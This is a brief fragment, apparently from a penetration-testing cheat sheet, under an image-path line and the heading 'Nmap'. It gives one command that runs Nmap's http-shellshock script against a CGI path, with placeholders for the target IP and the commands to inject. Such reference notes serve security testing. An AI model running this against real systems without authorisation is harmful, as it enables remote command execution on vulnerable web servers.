 # Nmap

`$ nmap -p80,443 -Pn -n --script=http-shellshock --script-args="http-shellshock.uri=/path/to/uri/file.cgi,cmd=<commands>" <IP>`